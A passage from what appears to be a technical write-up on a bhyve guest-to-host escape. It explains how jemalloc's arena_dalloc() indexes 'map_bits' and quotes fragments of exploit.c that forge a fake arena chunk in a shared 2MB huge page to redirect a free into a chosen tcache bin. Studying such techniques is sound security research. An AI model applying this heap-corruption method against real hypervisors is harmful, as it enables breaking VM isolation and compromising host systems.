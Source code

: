 The page index 'pageind' in arena_dalloc() for the pointer to be freed is
calculated and used as index into 'map_bits' array of 'arena_chunk_s'
structrue. This is done using arena_mapbits_get() to get the 'mapbits'
value. The series of calls invoked during arena_mapbits_get() are
arena_mapbits_get() -> arena_mapbitsp_get_const() -> 
arena_mapbitsp_get_mutable() -> arena_bitselm_get_mutable()

JEMALLOC_ALWAYS_INLINE arena_chunk_map_bits_t *
arena_bitselm_get_mutable(arena_chunk_t *chunk, size_t pageind)
&#123;
        . . .
        return (&chunk->map_bits[pageind-map_bias]);
&#125;

The 'map_bias' variable defines the number of pages used by chunk header,
which does not need tracking and can be omitted. The 'map_bias' value is
calculated in arena_boot() of arena.c file, whose value, in this case, is
13. arena_ptr_small_binind_get() gets the bin index 'binind' from the
encoded 'map_bits' value in 'arena_chunk_s' structure. Once this
information is fetched, tcache_dalloc_small() no longer uses arena chunk
header but relies on information from thread-specific data and thread cache
structures.

Hence the essential part of fake 'arena_chunk_s' structure is that,
'map_bits' should be set up in a way 'pageind - map_bias' calculation in
arena_bitselm_get_mutable() points to an entry in 'maps_bits' array, which
has an index value to a valid tcache bin. In this case, the index is set to
4, i.e. bin handling regions of size 64 bytes.

Since 'map_bias' is 13 pages, the usable pages could be placed after these
fake header pages. An elegant way to achieve this is to request a 2MB
(chunk size) contiguous memory from the guest which gets allocated as part
of the guest system. Allocating a contiguous 2MB virtual memory in guest
does not result in contiguous virtual memory allocation in the host. To
force the allocation to be contiguous in both guest and bhyve host process,
request memory using mmap() to allocate a 2MB huge page with MAP_HUGETLB
flag set.

---[ exploit.c ]---
. . .
        shared_gva = mmap(0, 2 * MB, PROT_READ | PROT_WRITE,
MAP_HUGETLB | MAP_PRIVATE | MAP_ANONYMOUS | MAP_POPULATE,
-1, 0);
. . . 
        shared_gpa = gva_to_gpa((uint64_t)shared_gva);
        shared_hva = base_address + shared_gpa;
   
        /* setting up fake jemalloc chunk */
        arena_chunk = (struct arena_chunk_s *)shared_gva;

        /* set bin index, also dont set CHUNK_MAP_LARGE */
        arena_chunk->map_bits[4].bits = (4 << CHUNK_MAP_BININD_SHIFT);

        /* calculate address such that pageind - map_bias point to tcache
 * bin size 64 (i.e. index 4) */
        fake_tbin_hva = shared_hva + ((4 + map_bias) << 12);
        fake_tbin_gva = shared_gva + ((4 + map_bias) << 12);
. . .
